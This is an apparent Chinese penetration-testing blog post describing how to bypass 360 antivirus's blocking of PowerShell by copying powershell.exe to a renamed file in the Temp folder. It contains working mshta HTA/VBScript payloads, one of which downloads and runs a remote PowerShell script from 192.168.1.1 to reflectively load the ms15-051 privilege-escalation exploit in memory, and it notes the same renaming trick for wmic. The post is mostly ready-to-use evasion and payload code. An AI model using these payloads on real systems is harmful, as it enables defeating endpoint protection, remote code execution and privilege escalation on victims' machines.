 ```yaml
---
title: "绕过 360 对 PowerShell 的拦截"
date: 2019-08-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['360','powershell']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



360 不拦截 PowerShell 本身的执行, 拦截的是其它进程对 powershell.exe 的调用.

以 mshta 为例.

<!--more-->

默认执行命令的 Payload.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

很显然是会被拦截的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151651.png)

利用一点小 trick.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.com", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.com -ep bypass -nop -c ""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1:8000/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.1.1:8000/ms15-051.exe -ExeArgs whoami;cmd /c pause"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

我们把位于系统目录中的 powershell.exe 复制到 Temp 目录下并重命名为 powershell.com, 然后通过 powershell.com 执行命令.

这里使用的是远程加载 PE 文件至内存中执行.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151831.png)

并不会被拦截.

实测中将程序改为任意其它文件名再执行都能够绕过 360 的拦截.

原因很简单, 360 把文件名写死了.

wmic 同理.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151929.png)

修改后.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806152108.png)